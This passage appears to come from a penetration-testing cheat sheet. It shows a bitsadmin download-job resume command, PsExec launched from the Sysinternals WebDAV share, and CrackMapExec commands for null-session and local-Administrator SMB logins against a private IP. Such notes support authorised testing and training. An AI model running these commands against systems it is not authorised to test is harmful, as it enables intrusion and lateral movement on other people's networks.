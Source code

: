 After this, we run the /resume switch to get the download started.

```
bitsadmin /resume winupdatejob
```

## PSexec from WebDAV:

```
\\live.sysinternals.com\tools\PSExec64.exe -accepteula
```

## CrackMapExec Tips and Tricks:

Null session:

```
crackmapexec smb 192.168.2.24 -u "" up ""
```

Connect to target using local account:

```
crackmapexec smb 192.168.2.24 -u 'Administrator' -p 'Password' --local-auth
```
